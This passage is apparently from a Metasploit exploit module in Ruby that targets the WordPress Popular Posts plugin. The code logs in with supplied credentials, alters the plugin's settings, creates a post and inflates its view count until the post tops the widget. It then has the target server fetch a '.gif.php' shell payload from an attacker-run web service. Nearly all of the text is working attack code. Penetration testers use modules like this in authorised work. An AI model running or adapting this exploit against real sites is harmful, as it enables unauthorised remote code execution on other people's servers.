 'Failed to retrieve page') unless res.code == 200 || res.code == 301     print_status("Sending #{post_count} views to #{res.headers['Location']}")     location = res.headers['Location'].split('/')[3...-1].join('/') # http://example.com/&lt;take this value>/&lt;and anything after>     (1..post_count).each do |_c|       res = send_request_cgi!(         'uri' => "/#{location}",         'cookie' => cookie,         'keep_cookies' => 'true'       )       # just send away, who cares about the response       fail_with(Failure::Unreachable, 'Site not responding') unless res       fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 200       res = send_request_cgi(         # this URL varies from the POC on EDB, and is modeled after what the browser does         'uri' => normalize_uri(target_uri.path, 'index.php'),         'vars_get' => {           'rest_route' => normalize_uri('wordpress-popular-posts', 'v1', 'popular-posts')         },         'keep_cookies' => 'true',         'method' => 'POST',         'cookie' => cookie,         'vars_post' => {           '_wpnonce' => wp_nonce,           'wpp_id' => post_id,           'sampling' => 0,           'sampling_rate' => 100         }       )       fail_with(Failure::Unreachable, 'Site not responding') unless res       fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless res.code == 201     end     fail_with(Failure::Unreachable, 'Site not responding') unless res   end    def get_top_posts     print_status('Determining post with most views')     res = get_widget     />(?&lt;views>\d+) views&lt;/ =~ res.body     views = views.to_i     print_status("Top Views: #{views}")     views += 5 # make us the top post     unless datastore['VISTS'].nil?       print_status("Overriding post count due to VISITS being set, from #{views} to #{datastore['VISITS']}")       views = datastore['VISITS']     end     views   end    def get_widget     # load home page to grab the widget ID. At times we seem to hit the widget when it's refreshing and it doesn't respond     # which then would kill the exploit, so in this case we just keep trying.     (1..10).each do |_|       @res = send_request_cgi(         'uri' => normalize_uri(target_uri.path),         'keep_cookies' => 'true'       )       break unless @res.nil?     end     fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless @res.code == 200     /data-widget-id="wpp-(?&lt;widget_id>\d+)/ =~ @res.body     # load the widget directly     (1..10).each do |_|       @res = send_request_cgi(         'uri' => normalize_uri(target_uri.path, 'index.php', 'wp-json', 'wordpress-popular-posts', 'v1', 'popular-posts', 'widget', widget_id),         'keep_cookies' => 'true',         'vars_get' => {           'is_single' => 0         }       )       break unless @res.nil?     end     fail_with(Failure::UnexpectedReply, 'Failed to retrieve page') unless @res.code == 200     @res   end    def exploit     fail_with(Failure::BadConfig, 'SRVHOST must be set to an IP address (0.0.0.0 is invalid) for exploitation to be successful') if datastore['SRVHOST'] == '0.0.0.0'     cookie = wordpress_login(datastore['USERNAME'], datastore['PASSWORD'])      if cookie.nil?       vprint_error('Invalid login, check credentials')       return     end      payload_name = "#{Rex::Text.rand_text_alphanumeric(5..8)}.gif.php"     vprint_status("Payload file name: #{payload_name}")      fail_with(Failure::NotVulnerable, 'gd is not installed on server, uexploitable') unless check_gd_installed(cookie)     post_count = get_top_posts      # we dont need to pass the cookie anymore since its now saved
into http client     token = get_wpp_admin_token(cookie)     vprint_status("wpp_admin_token: #{token}")     change_settings(cookie, token)     clear_cache(cookie, token)     post_id, ajax_nonce, wp_nonce = create_post(cookie)     print_status('Starting web server to handle request for image payload')     start_service({       'Uri' => {         'Proc' => proc { |cli, req| on_request_uri(cli, req, payload_name, post_id) },         'Path' => "/#{payload_name}"       }     })      add_meta(cookie, post_id, ajax_nonce, payload_name)     boost_post(cookie, post_id, wp_nonce, post_count)     print_status('Waiting 90sec for cache refresh by server')     Rex.sleep(90)     print_status('Attempting to force loading of shell by visiting to homepage and loading the widget')     res = get_widget     print_good('We made it to the top!') if res.body.include? payload_name     # if res.body.include? datastore['SRVHOSTNAME']     #  fail_with(Failure::UnexpectedReply, "Found #{datastore['SRVHOSTNAME']} in page content. Payload likely wasn't copied to the server.")     # end     # at this point, we rely on our web server getting requests to make the rest happen   end end
